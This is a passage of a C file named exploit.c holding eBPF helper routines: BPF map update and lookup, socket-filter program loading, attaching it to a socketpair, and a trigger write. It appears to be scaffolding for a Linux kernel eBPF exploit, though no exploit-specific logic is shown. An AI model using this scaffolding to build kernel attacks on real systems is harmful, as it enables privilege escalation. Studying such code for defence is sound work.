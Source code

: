 ```exploit.c
{
  union bpf_attr attr = {
    .map_fd = mapfd,
    .key = (uint64_t)&key,
    .value = value,
    .flags = BPF_ANY,
  };
  return bpf_(BPF_MAP_UPDATE_ELEM, &attr);
}

unsigned long get_ulong(int map_fd, uint64_t idx) {
  uint64_t value;
  union bpf_attr lookup_map_attrs = {
    .map_fd = map_fd,
    .key = (uint64_t)&idx,
    .value = (uint64_t)&value
  };
  if (bpf_(BPF_MAP_LOOKUP_ELEM, &lookup_map_attrs))
    err(1, "MAP_LOOKUP_ELEM");
  return value;
}

int prog_load(struct bpf_insn *insns, size_t insns_count) {
  char verifier_log[100000];
  union bpf_attr create_prog_attrs = {
    .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
    .insn_cnt = insns_count,
    .insns = (uint64_t)insns,
    .license = (uint64_t)"GPL v2",
    .log_level = 2,
    .log_size = sizeof(verifier_log),
    .log_buf = (uint64_t)verifier_log
  };
  int progfd = bpf_(BPF_PROG_LOAD, &create_prog_attrs);
  int errno_ = errno;
  //printf("==========================\n%s==========================\n",verifier_log);
  errno = errno_;
  if (progfd == -1)
    err(1, "prog load");
  return progfd;
}

int create_filtered_socket_fd(struct bpf_insn *insns, size_t insns_count) {
  int progfd = prog_load(insns, insns_count);

  int socks[2];
  if (socketpair(AF_UNIX, SOCK_DGRAM, 0, socks))
    err(1, "socketpair");
  if (setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(int)))
    err(1, "setsockopt");
  return socks[1];
}

void trigger_proc(int sockfd) {
  if (write(sockfd, "X", 1) != 1)
    err(1, "write to proc socket failed");
}
// (END eBPF-utils)


// commands
#define DEV_PATH ""   // the path the device is placed

```